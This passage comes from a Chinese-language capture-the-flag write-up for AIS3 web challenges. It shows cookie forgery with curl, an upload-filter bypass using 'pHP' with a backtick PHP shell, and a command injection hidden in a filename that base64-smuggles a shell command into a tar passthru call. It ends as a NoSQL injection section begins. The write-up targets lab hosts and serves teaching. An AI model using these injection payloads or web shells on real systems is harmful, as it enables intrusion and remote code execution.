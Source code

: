 3. 需要成為 `bear poker`，因此將 Cookie 的 `human` 設成 `bear poker`，再 poke 一次就拿到 flag。
```bash
$ curl http://chals1.ais3.org:8987/bear/499
Hello human, you need to be a "bear poker" to poke the SECRET BEAR.
$ curl http://chals1.ais3.org:8987/poke -H 'Cookie: human=bear poker' -d 'bear _id=499' -H 'Content-Type: application/x-www-form-urlencoded'
<script>alert(`AIS3{y0u_P0l<3_7h3_Bear_H@rdLy><}`); location='/'</script>
```

**Flag: `AIS3{y0u_P0l<3_7h3_Bear_H@rdLy><}`**

### Simple File Uploader

1. 不能上傳 `php`, `php2`, `php3`, `php4`, `php5`, `php6`, `phar`, `phtm`，可以用 `pHP` bypass 檢查。
2. Ban 掉一堆危險 function，可以用 `` ` `` 執行 shell command 讀取 flag。

```php
<?php
echo(`/rUn_M3_t0_9et_fL4g`);
?>
```

**Flag: 忘了留...**

### Tari Tari
1. 上傳 `trash.txt` 後，網頁提供的下載網址為 `http://chals1.ais3.org:9453/download.php?file=MjY1MDEwZmI2MDg2NGU1MGFjZTg5Y2RkYjE4ZmQxZjIudGFyLmd6&name=trash.txt.tar.gz`。把 `file` base64 decode 得到 `265010fb60864e50ace89cddb18fd1f2.tar.gz`，由此猜測 `file` 可以讀取任意檔案。

2. 讀取 `index.php`，發現其使用 `passthru` 執行 shell command，而 `$filename` 為使用者可控，因此可以 RCE。
```php
$filename = $file['name'];
$path = bin2hex(random_bytes(16)) . ".tar.gz";
$source = substr($file['tmp_name'], 1);
$destination = "./files/$path";
passthru("tar czf '$destination' --transform='s|$source|$filename|' --directory='/tmp' '/$source'", $return);
```

3. 上傳檔案即可讀到 flag。
```bash
$ echo abc >  "'|| echo $(echo -n cat /y000000_i_am_the_f14GGG.txt | base64) | base64 -d | bash;#"
$ ls
total 32K
-rw-r--r-- 1 ice1187 ice1187    0 May 15 18:16 ''\''|| echo Y2F0IC95MDAwMDAwX2lfYW1fdGhlX2YxNEdHRy50eHQ= | base64 -d | bash;#'
```

**Flag: `AIS3{test_flag (to be changed)}`**  (這個 flag 有夠迷惑...)

### The Best Login UI

1. `bodyParser.urlencoded` 中設定 `extended = true`，表示 [HTTP 傳入的參數會被當作 object](https://www.npmjs.com/package/body-parser#extended)，而非 string。再加上使用 MongoDB，因此可以嘗試 NoSQL injection。
<img width="556" alt="the-best-login-ui-extended" src="https://user-images.githubusercontent.com/38059464/176656006-0c26cfd0-bfbc-4bda-8651-2e4b81e21344.png">
